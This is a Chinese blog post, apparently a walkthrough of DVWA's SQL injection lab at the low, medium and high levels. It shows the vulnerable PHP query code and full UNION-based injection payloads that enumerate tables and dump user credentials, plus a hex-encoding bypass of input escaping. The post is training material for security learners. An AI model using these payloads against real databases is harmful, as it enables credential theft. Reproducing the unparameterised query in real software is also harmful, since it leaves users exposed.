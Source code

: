 ```yaml
---
layout:     post
title:      dvwa之sql注入
subtitle:   dvwa的sql注入通关
date:       2020-11-17
author:     YY——阳阳
header-img: img/post/post-bg-2020-11-17.jpg
catalog: true
tags:
    - dvwa
    - sql注入

---
```


## Low级别
> 源码
```php
$id = $_REQUEST[ 'id' ]
# 没有过滤就直接带入 SQL 语句中 使用单引号闭合
$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
while( $row = mysqli_fetch_assoc( $result ) ) {
        // 回显信息
        $first = $row["first_name"];
        $last  = $row["last_name"];
        $html .= "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }
```
> payload流程
```
-1' order by 2# 测试列数
-1' union select 1,2# 测试回显位置
-1' union select 1,database()# 查看数据库名
-1' union select 1, table_name from information_schema.tables where table_schema='dvwa'# 查表
-1' union select 1,column_name from information_schema.columns where table_name='users'#查列
-1' union select 1,concat_ws('~',user,password) from users#查字段
```

## medium
> 发现转变为post方式，使用burp抓包进行绕过
> 查看源代码之后发现使用了mysqli_real_escape_string()的php函数
> 把用户输入数据中的 NUL（ASCII 0）、\n、\r、\、’、" 和 Control-Z字符进行了转义
> 发现查询语句为`SELECT first_name, last_name FROM users WHERE user_id = $id`并不是一定需要’号 库名表名等也可以用十六进制绕过

```php
payload
-1 order by 2# 测试列数
-1  union select 1,2# 测试回显位置
-1 union select 1,database()# 查看数据库名
-1 union select 1, table_name from information_schema.tables where table_schema=0x64767761# 查表
-1 union select 1,column_name from information_schema.columns where table_name=0x7573657273#查列
-1 union select user,password from users##查字段
```

## high
> 查看源码，没发现有什么过滤，直接payload
```php
-1' order by 2# 测试列数
-1' union select 1,2# 测试回显位置
-1' union select 1,database()# 查看数据库名
-1' union select 1, table_name from information_schema.tables where table_schema='dvwa'# 查表
-1' union select 1,column_name from information_schema.columns where table_name='users'#查列
-1' union select 1,concat_ws('~',user,password) from users#查字段
```
